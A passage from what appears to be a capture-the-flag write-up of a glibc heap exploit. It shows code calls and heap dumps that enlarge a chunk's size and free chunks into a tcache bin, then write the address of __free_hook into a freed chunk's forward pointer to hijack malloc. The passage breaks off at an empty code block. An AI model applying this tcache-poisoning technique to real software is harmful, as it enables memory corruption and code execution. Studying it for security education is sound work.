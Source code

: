 ```py
0x5ddc07101710	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101720	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101730	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101740	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101750	0x7a7a7a7a7a7a7a7a	0x0000000000000331	zzzzzzzz1.......	 <-- unsortedbin[all][0]
0x5ddc07101760	0x000075e1a13ebca0	0x000075e1a13ebca0	..>..u....>..u..
```
nice! we changed the size of the second chunk.

Let's now call free on the second and third chunks and see what happens
```py
delete_plan(1)
delete_plan(2)
```
This is the heap now:
```py
0x5ddc07101660	0x0000000000000000	0x0000000000000051	........Q....... # First
0x5ddc07101670	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101680	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101690	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016a0	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016b0	0x7878787878787878	0x0000000000000080	xxxxxxxx........
0x5ddc071016c0	0x0000000000000000	0x00005ddc07101010	.............]..	 <-- tcachebins[0x80][0/1]
0x5ddc071016d0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016e0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016f0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101700	0x7979797979797979	0x0000000000000051	yyyyyyyyQ.......
0x5ddc07101710	0x0000000000000000	0x00005ddc07101010	.............]..	 <-- tcachebins[0x50][0/1]
0x5ddc07101720	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101730	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101740	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101750	0x7a7a7a7a7a7a7a7a	0x0000000000000331	zzzzzzzz1.......	 <-- unsortedbin[all][0]
0x5ddc07101760	0x000075e1a13ebca0	0x000075e1a13ebca0	..>..u....>..u..
```
We tricked the allocator in putting the second chunk in ``tcachebins[0x80]``!
In this situation we can make precise allocation to finish our exploit, this is the critical part so let's take it slowly!

Let's create a ``0x70`` chunk and put the address of ``__free_hook()`` in it, this is the address we want to trick malloc to give us.
```py
create_plan(0x70, b"y"*0x50 + p64(libc.sym.__free_hook))
```
The heap now (we can omit the first chunk)
```py
0x5ddc071016b0	0x7878787878787878	0x0000000000000080	xxxxxxxx........ # New chunk
0x5ddc071016c0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016d0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016e0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016f0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101700	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101710	0x000075e1a13ed8e8	0x00005ddc07101010	..>..u.......]..	 <-- tcachebins[0x50][0/1]
0x5ddc07101720	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101730	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101740	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101750	0x7a7a7a7a7a7a7a7a	0x0000000000000331	zzzzzzzz1.......	 <-- unsortedbin[all][0]
0x5ddc07101760	0x000075e1a13ebca0	0x000075e1a13ebca0	..>..u....>..u..
```
now the ``fd`` pointer of the old third chunk is set to our hook function
```py
```